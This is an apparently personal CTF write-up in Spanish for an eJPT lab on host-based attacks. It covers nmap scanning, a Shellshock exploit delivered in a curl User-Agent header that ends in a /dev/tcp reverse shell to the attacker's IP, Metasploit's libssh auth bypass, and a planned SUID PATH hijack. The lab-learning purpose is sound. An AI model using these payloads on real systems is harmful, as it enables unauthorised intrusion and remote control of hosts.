

repository: scarlgyx/scarlgyx-cybersecurity · page: certs/ejpt/host-network-pentest/02-system-host-based-attacks-ctf-2/index.html · generator: mkdocs

# System-Host Based Attacks CTF 2

- FLAG1
```bash
sudo nmap -p- -sCV --min-rate=5000 -n target1.ine.local -oN scanNmap1.txt
```

![](../../../assets/img/Pasted_image_20260910152024.png)

Nada entrar a la página nos redirige a un */browser.cgi*, esto huele a un ataque de **Shell Shock**
```bash
nmap --script http-shellshock --script-args "http-shellshock.uri=/browser.cgi" target1.ine.local
```

![](../../../assets/img/Pasted_image_20260910154132.png)

Para ver por qué interfaz se está comunicando el lab con los target1 y target2 podemos usar
```bash
cat /etc/hosts
```

![](../../../assets/img/Pasted_image_20260910154747.png)

```bash
ip route get 192.198.111.3
```

![](../../../assets/img/Pasted_image_20260910154820.png)

**eth1**

Vamos a explotar el Shellshock attack
```bash
curl -s -X GET "http://target1.ine.local/browser.cgi" -H "User-Agent: () { :; };echo; /usr/bin/whoami"
```

![](../../../assets/img/Pasted_image_20260910155047.png)

Tenemos RCE

Nos lanzamos una shell
```bash
curl -s -X GET "http://target1.ine.local/browser.cgi" -H "User-Agent: () { :; };echo; /bin/bash -c '/bin/bash -i >&/dev/tcp/192.198.111.2/443 0>&1'"
```

daemon

Encontramos la flag en */*

- FLAG2

La siguiente flag se nos dice que la encontraremos buscando detenidamente en */opt/apache/htdocs*

![](../../../assets/img/Pasted_image_20260910160052.png)

- FLAG3

Se nos dice "Investigate the user's home directory and consider using 'libssh_auth_bypass' to uncover the flag on target2.ine.local"

```bash
sudo nmap -p- -sCV --min-rate=5000 -n target2.ine.local -oN scanNmap2.txt
```

![](../../../assets/img/Pasted_image_20260910161135.png)

Buscamos exploits como metasploit

![](../../../assets/img/Pasted_image_20260910161327.png)

Seleccionamos el exploit y lo ejecutamos
- CMD = */bin/bash*
- RHOSTS = target2.ine.local

![](../../../assets/img/Pasted_image_20260910162104.png)

user

Encontramos la flag en */home/user*

- FLAG3

Vemos un binario **welcome** con SUID
Consultamos sus strings y vemos *greetings* y *system*
- Podría ser que esté ejecutando con **system()** el archivo privilegiado **greetings**

Vamos a intentar un Path Hijacking añadiendo la ruta */tmp* y creando un archivo *greetings* que se ejecute y ejecute código malicioso al llamar a **welcome**

![](../../../assets/img/Pasted_image_20260910163248.png)
